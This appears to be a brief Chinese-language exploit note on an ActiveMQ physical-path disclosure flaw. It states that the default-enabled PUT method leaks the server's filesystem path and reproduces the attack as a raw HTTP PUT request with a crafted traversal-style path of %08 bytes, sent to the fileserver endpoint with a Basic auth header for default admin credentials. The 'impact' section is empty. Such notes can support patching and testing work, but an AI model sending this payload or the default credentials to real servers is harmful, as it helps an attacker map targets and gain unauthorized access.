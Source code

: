 <h1>ActiveMQ物理路径泄漏漏洞</h1>
<h2>一、漏洞简介</h2>
<p>ActiveMQ默认开启PUT请求，当开启PUT时，构造好Payload(即不存在的目录)，Response会返回相应的物理路径信息</p>
<h2>二、漏洞影响</h2>
<h2>三、复现过程</h2>
<pre><code class="language-ruby">
Request Raw:
PUT /fileserver/a../../%08/..%08/.%08/%08 HTTP/1.1
Host: 192.168.197.25:8161
Authorization: Basic YWRtaW46YWRtaW4=
Content-Length: 4
</code></pre>
